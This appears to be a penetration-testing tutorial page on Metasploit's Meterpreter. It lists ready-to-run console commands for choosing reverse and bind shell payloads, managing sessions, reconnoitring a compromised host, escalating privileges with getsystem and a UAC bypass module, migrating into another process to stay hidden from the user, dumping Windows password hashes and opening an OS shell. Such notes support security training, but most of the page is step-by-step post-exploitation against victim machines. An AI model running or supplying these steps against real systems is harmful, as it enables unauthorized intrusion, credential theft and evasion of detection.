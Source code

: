 # Meterpreter

Meterpreter is a very powerful shell which runs on Anroid, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services

It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more

To list all possible Meterpreter payloads in MSFConsole:

```
search meterpreter
```

To choose a payload when attacking a Windows machine:

```
set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse

Meterpreter can both wait for a connection on the target machine or connect back to the attacker machine

Most used configurations are `bind_tcp` and `reverse_tcp`

* **`bind_tcp`** runs a server process on the target machine that waits for connections from the attacker machine
* **`reverse_tcp`** performs a TCP connection back to the attacker machine which could help evade firewall rules

```
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload windows/meterpreter/bind_tcp
set payload java/meterpreter/bind_tcp
```

## Sessions

A single instance of MSFConsole can host multiple Meterpreter sessions which means you can instance multiple shells on your targets and switch between them

To switch from a Meterpreter session to the console

```
background
```

To list currently opened sessions

```
sessions -l
```

To resume a background session

```
sessions -i <id>
```

## Information Gathering

You can perform information gathering on the exploited machine and the network it is attached to

You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

### System Information

To retrieve information about the exploited machine: name, OS, architecture, system language and the Meterpreter version running:

```
sysinfo
```

![](<../../../../.gitbook/assets/image (28) (1) (1) (1).png>)

### Network configuration

To print the network configuration:

```
ifconfig
```

![](<../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1).png>)

### Routing information

```
route
```

![](<../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png>)

### Current User

```
getuid
```

![](<../../../../.gitbook/assets/image (31) (1) (1) (1).png>)

### Privilege Escalation

To just current privileges on Windows

```
run post/windows/gather/win_privs
```

![](<../../../../.gitbook/assets/image (33) (1) (1) (1) (1) (1).png>)

You can use `getsystem` if the owner of the process does not have high privileges on the victim system

```
getsystem
```

![](<../../../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

### Bypassing UAC

{% hint style="info" %}
In modern Windows operating systems, the User Account Control policy prevent privilege escalation
{% endhint %}

![](<../../../../.gitbook/assets/image (25) (1) (1) (1) (1) (1) (1).png>)

You can bypass that restriction by u sing the `bypassuac` module

```
use exploit/windows/local/bypassuac
```

Then you have to set the session where you want to bypass UAC

```
set session <id>
```

Launch the exploit to get a new Meterpreter session with the UAC policy disabled and use `getsystem`

![](<../../../../.gitbook/assets/image (10) (1) (1).png>)

## Staying Stealthy

Checking pid with `getpid` shows the process you're currently running on

As you can imagine, this process name is not very stealthy and is also suspicious

A user checking their process list may notice something strange on their machine

![](<../../../../.gitbook/assets/image (35) (1) (1) (1) (1) (1).png>)

Therefore, in order to remain stealthy, we can use the `migrate` command to attach our session on a different process

We have to choose a process with the same privileges we currently have

```
ps -U SYSTEM
migrate <PID> //simply using migrate should work as well if you don't want to be specific
```

## Dumping the Password Database

```
use post/windows/gather/hashdump
set session <id>
exploit
```

![](<../../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1).png>)

## Exploring the Victim System

You can navigate the hard drive by using Unix-like shell commands

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1) (1).png>)

## Uploading and Downloading

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

## Running an OS Shell

You can run a standard OS shell

```
shell
```

![](<../../../../.gitbook/assets/image (26) (1) (1) (1) (1) (1) (1).png>)
